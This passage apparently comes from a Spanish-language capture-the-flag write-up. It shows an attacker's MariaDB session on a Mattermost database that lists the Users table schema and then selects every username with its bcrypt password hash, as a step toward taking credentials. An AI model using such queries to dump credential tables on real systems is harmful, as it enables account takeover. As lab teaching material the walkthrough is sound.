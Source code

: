 Tenemos varias tablas, pero me llama la atención la de **Users**, veamos su contenido:
```sql
MariaDB [mattermost]> describe Users;
+--------------------+--------------+------+-----+---------+-------+
| Field              | Type         | Null | Key | Default | Extra |
+--------------------+--------------+------+-----+---------+-------+
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |
| Username           | varchar(64)  | YES  | UNI | NULL    |       |
| Password           | varchar(128) | YES  |     | NULL    |       |
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |
| AuthService        | varchar(32)  | YES  |     | NULL    |       |
| Email              | varchar(128) | YES  | UNI | NULL    |       |
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
| FirstName          | varchar(64)  | YES  |     | NULL    |       |
| LastName           | varchar(64)  | YES  |     | NULL    |       |
| Position           | varchar(128) | YES  |     | NULL    |       |
| Roles              | text         | YES  |     | NULL    |       |
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.001 sec)
```

Excelente, ahí están las columnas del usuario y su contraseña por lo que podemos obtener las credenciales, veamos si se pueden ver:
```sql
MariaDB [mattermost]> select Username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| berserkw                         | $2a$10$z35SPIrJtjWwpEeBwfOE..IlOzRiHMkyIdWk2tvdeDBhikWQP06Iy |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
9 rows in set (0.000 sec)
```
